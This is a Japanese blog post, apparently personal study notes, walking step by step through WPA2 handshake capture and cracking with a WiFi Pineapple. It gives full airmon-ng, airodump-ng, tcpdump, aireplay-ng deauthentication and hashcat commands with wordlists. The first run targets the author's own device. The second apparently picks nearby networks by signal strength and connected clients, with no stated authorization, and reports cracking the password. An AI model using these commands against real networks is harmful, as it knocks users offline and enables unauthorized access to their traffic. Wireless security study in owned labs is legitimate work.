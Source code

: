 ```yaml
---
title: "Evil Twin Attack with WiFi Pineapple and Kali Linux"
date: "2025-02-08 00:00:00 +0900"
categories: [Hacking, WiFi]
tags: [Hak5, WiFi-Pineapple, WPA, WPA2, WiFi Hacking]
---
```


# Make Most of WiFi Pineapple

- ツールを活用しながら学んでいく。

## 準備

- ポケットWiFi(中古)を工場出荷時に戻す
  - ![alt text](../assets/images/Screenshot_2025-02-06_143218.png)
- SSID / PWを再設定

## 機器

- ターゲット: PoketWiFi(SSID:1337_WiFI)
- ターゲットに接続しているデバイス: Android スマホ
- Laptop: WifiPineappleとの接続とWebUI操作
- WifiPineapple

## WPA/WPA2 Crack

### ステップ
1. Recon（ネットワークスキャン） → WiFiの情報収集
2. Deauthentication Attack（Deauth攻撃） → クライアントを強制切断してハンドシェイクを取得
3. Handshake Capture（ハンドシェイクキャプチャ） → WPA/WPA2の認証データを取得
4. Password Cracking（パスワードクラック） → 辞書攻撃・総当たり攻撃でパスワード解析

### 実践_01

1. **Recon: ターゲット確認**  
   ![alt text](../assets/images/Screenshot_2025-02-06_151547.png)

2. **Deauth: クライアントの強制切断を確認**  
   ![alt text](../assets/images/Screenshot_2025-02-06_154447.png)  
   - クライアント（このWiFiに接続しているAndroidスマホ）の情報は見えない  

3. **Handshake Capture（ハンドシェイクキャプチャ）: tcpdumpモジュールを使用**  
   
   #### 3.1 インターフェースをモニターモードに変更  
   - WiFi PineappleにSSHで接続:  
     ```sh
     ssh root@172.16.42.1
     ```
   - モニターモード（Monitor Mode）を有効化:  
     ```sh
     airmon-ng start wlan1
     ```
     ![alt text](../assets/images/Screenshot_2025-02-06_170338.png)  
     - `wlan1` に対してモニターモードの仮想インターフェース `wlan1mon` が作成されていることが分かる。
   - MMとして利用できるインターフェースを特定:  
     ```sh
     iwconfig
     ```
     ![alt text](../assets/images/Screenshot_2025-02-06_165352.png)  
     - `wlan2` はクライアントモード（Managed Mode）で利用中：WiFi Pineappleが「WiFiルーターに接続する側」として動作する  
     - `wlan0-1` はアクセスポイントモード（AP Mode / Master Mode）で利用中：他のデバイスを接続させるための偽WiFi（Evil Twin Attack など）を作るときに使う  

   #### 3.2 tcpdumpモジュールをインストール  
   - `Modules` >> `install`
   - `Modules` >> `tcpdump` >> `install dependencies`

   #### 3.3 実際にキャプチャ  
   - Recon: ターゲットの情報を取得
     ![alt text](../assets/images/Screenshot_2025-02-06_172042.png)
   - wlan1mon をターゲットAPのチャネルに固定:
     ```sh
     iwconfig wlan1mon channel 11
     ```
   - `tcpdump` を使用してパケットをキャプチャ: -w は保存先でもしusbに保存したい場合: `tcpdump -i wlan1mon -w /sd/handshake.pcap` 
     ```sh
     tcpdump -i wlan1mon -w /root/handshake.pcap
     ```
   - UIでDeauth実行: コマンドで実行する場合: `aireplay-ng --deauth 10 -a <ターゲットAPのMACアドレス> wlan1mon`
   - Cnrl + C でパケットキャプチャを停止。
     ![alt text](../assets/images/Screenshot_2025-02-06_172921.png)
   - 取得したデータをLaptopに転送: `scp root@172.16.42.1:/root/handshake.pcap C:\Users\<YourUsername>\Desktop\`
4. Password Cracking（パスワードクラック） → 辞書攻撃・総当たり攻撃でパスワード解析
   - Wiresharkでデータを開いてキャプチャをフィルタリングして WPA ハンドシェイクパケットを探す: `eapol`でフィルター
     ![alt text](../assets/images/Screenshot_2025-02-06_175138.png)
   - WPA2ハンドシェイクで、パスワードを解析するために必要なデータ。File → Save As → test.cap として保存
   - Hashcatを利用: 3min
   - .pcap ファイル ⇢ .hccapxファイルへ: `hcxpcapngtool -o handshake.hccapx capture.pcap`
   - パスワードクラック: `hashcat -m 22000 -a 0 -w 3 handshake.hccapx /usr/share/wordlists/rockyou.txt`
   - ![alt text](../assets/images/2025-02-07_16-49.png)

### 実践_02
※ wlan2が認識されないバグがあるため、アダプターを何度か抜いたりして認識させる: `iwconfig`

1. **Recon on WiFi Pineapple**  
   ![alt text](../assets/images/Screenshot_2025-02-07_215242.png)

2. **ターゲットの選定:**  
   - WPA2 PSK (CCMP) や WPA Mixed PSK (CCMP) を利用している。
   - 電波強度が -60dBm 前後のものを選択。
   - クライアント（接続デバイス）がいることを確認。

3. **モニターモード有効化とネットワーク監視:**  
   ```sh
   airmon-ng start wlan1
   airodump-ng --bssid XX:XX:XX:XX:XX:XX -c 7 -w /sd/handshake wlan1mon
   ```
   ![alt text](../assets/images/Screenshot_2025-02-07_214904.png)

4. **キャプチャ:**  
   ```sh
   tcpdump -i wlan1mon -w /sd/practice7.pcap
   ```

5. **Deauth攻撃:**  
   ```sh
   aireplay-ng --deauth 1 -a XX:XX:XX:XX:XX:XX -c YY:YY:YY:YY:YY:YY wlan1mon
   ```
  - YY: Frameが多い方のデバイスを選択。通信が多いので、キャプチャできるチャンスが増える。
  - 何度も間隔を開けて行う。Message 1 of 4 - Message 4 of 4 までのハンドシェイクのキャプチャを取得しないといけないため。
  - 4つ全て取得できるまで何度も。確認はwireshrk。

6. **キャプチャファイルの移動:**  
   ```sh
   scp root@172.16.42.1:/sd/practice.pcap C:\Users\ebisu\Desktop\
   ```

7. **Wiresharkで `eapol` を確認し保存** 
   Message 1 of 4 - Message 4 of 4 全て含まれていたら成功。

8. **Hashcatでパスワードクラック:**: 失敗  
   ```sh
   hcxpcapngtool -o handshake.hccapx practice7.pcap #.pcap ファイル ⇢ .hccapxファイルへ
   hashcat -m 22000 -a 0 -w 3 handshake.hccapx /usr/share/wordlists/rockyou.txt
   ```
   ![alt text](../assets/images/2025-02-07_22-10.png)

9. **別のパスワードリストを使用:**: 成功  
   別のWiFI用のPWリストを取得: [WPA-Dictionary](https://github.com/TKanX/WPA-Dictionary)

   ```sh
   cat /media/.../WPA-password-dictionary/*.txt > /media/.../WPA-password-dictionary/merged_wordlist.txt #フォルダに数多くの.txtファイルがあったので１つにまとめる
   hashcat -m 22000 -a 0 -w 3 practice7.hccapx /media/.../WPA-password-dictionary/merged_wordlist.txt
   ```
   ![alt text](../assets/images/2025-02-08_07-28.png)

